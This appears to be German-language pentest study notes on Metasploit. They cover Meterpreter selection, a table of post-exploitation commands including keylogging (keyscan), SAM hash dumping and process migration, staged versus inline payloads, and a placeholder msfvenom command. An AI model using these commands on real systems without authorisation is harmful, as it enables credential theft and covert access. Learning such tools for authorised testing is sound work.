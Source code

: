Die Entscheidung, welche Version von Meterpreter verwendet werden soll, hängt hauptsächlich von drei Faktoren ab:

* Das Zielbetriebssystem (Ist das Zielbetriebssystem Linux oder Windows? Handelt es sich um ein Mac-Gerät? Ist es ein Android-Telefon? usw.)
* Auf dem Zielsystem verfügbare Komponenten (Ist Python installiert? Handelt es sich um eine PHP-Website? usw.)
* Arten von Netzwerkverbindungen, die mit dem Zielsystem hergestellt werden können (Sind raw TCP-Verbindungen zulässig? Kann nur eine HTTPS reverse connection hergestellt werden? Werden IPv6-Adressen nicht so streng überwacht wie IPv4-Adressen? usw.)

### Post-Exploitation

<table><thead><tr><th width="332">Befehl</th><th>Bedeutung</th></tr></thead><tbody><tr><td>getuid</td><td>Username anzeigen (Zielsystem) auf dem MP läuft</td></tr><tr><td>ps</td><td>alle laufenden Prozesse anzeigen</td></tr><tr><td></td><td></td></tr><tr><td>!Migrate kann zum Verlust von Privilegien führen!</td><td></td></tr><tr><td>migrate &#x3C;pid></td><td>MP-Prozess in anderen Prozess integrieren um:</td></tr><tr><td>keyscan_start</td><td>Tastatur-Eingaben aufzeichnen  ( Keylogger )</td></tr><tr><td>keyscan_stop</td><td>Aufzeichnung stoppen</td></tr><tr><td>keyscan_dump</td><td>Aufzeichnung ausgeben</td></tr><tr><td></td><td></td></tr><tr><td>hashdump</td><td>Einträge der SAM-DB (Security Account Manager) ausgeben (windows) -> NTLM-Format</td></tr><tr><td>Wenn hashdump "operation failed" liefert, könnte aktueller Prozess auf falscher Architektur laufen -> migrate</td><td></td></tr><tr><td></td><td></td></tr><tr><td>search -f &#x3C;filename></td><td>Datei suchen</td></tr><tr><td>shell</td><td>shell starten</td></tr><tr><td></td><td></td></tr><tr><td>load &#x3C;erweiterung></td><td>python, kiwi, etc.</td></tr><tr><td></td><td>Nach load ist "<code>help</code>" empfehlenswert</td></tr></tbody></table>

## Exploitation

Payloads werden in 2 Kategorien eingeteilt:

* Inline ( Single ) -> Kompletter Payload wird direkt installiert und ausgeführt.
* Staged -> Wird in 2 Schritte versendet. Der Stager wird initial auf dem Ziel installiert und lädt den restlichen Code des Payload nach. Dadurch kann die Größe des initialen Payloads minimiert werden.

```
show payloads    # verfügbare Payloads anzeigen
set payload 1    # Payload Nr. 1 auswählen

set payload /windows/../meterpreter/..  # meterpreter als payload setzen
run hashdump     # Hashes mit meterpreter dumpen
```

## msfvenom

Mit Msfvenom kann man auf alle im Metasploit-Framework verfügbaren Payloads zugreifen. Mit Msfvenom können Payloads in vielen verschiedenen Formaten (PHP, exe, dll, elf, etc.) und für viele verschiedene Zielsysteme (Apple, Windows, Android, Linux, etc.) erstellt werden.

```
# Payload generieren
msfvenom <parameter> LHOST=<ip>
```

